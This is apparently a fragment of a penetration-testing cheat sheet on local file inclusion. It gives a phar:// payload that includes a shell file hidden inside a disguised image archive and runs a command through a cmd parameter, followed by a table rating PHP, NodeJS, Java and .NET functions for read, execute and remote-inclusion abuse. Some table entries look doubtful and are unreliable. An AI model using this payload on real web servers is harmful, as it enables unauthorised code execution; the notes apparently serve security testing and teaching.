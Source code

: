 Now exploit LFI to include the archive with the `phar://` PHP wrapper and specify the sub-file with `/shell.txt` (with the `/` URL encoded) as below:

`phar://.required-directory/if-needed/shell.jpg%2Fshell.txt&cmd=whoami`


## Backend Function Exploitability

| Function | Read | Execute | RFI |
| -------- | ---- | ------- | --- |
| **PHP**  | | | |
| `include()` / `include_once()` | O | O | O |
| `require()` / `require_once()` | O | O | X |
| `file_get_contents()` | O | X | O |
| `fopen()` / `file()` | O | X | O |
| **NodeJS** | | |
| `fs.readFile()` | O | X | X |
| `fs.sendFile()` | O | X | X |
| `res.sender()` | O | O | X |
| **Java** | | | |
| `include` | O | X | X |
| `import` | O | O | O |
| **.NET** | | | |
| `@Html.Partial()` | O | X | X |
| `@Html.RemotePartial()` | O | X | O |
| `Response.WriteFile()` | O | X | X |
| `include` | O | O | O |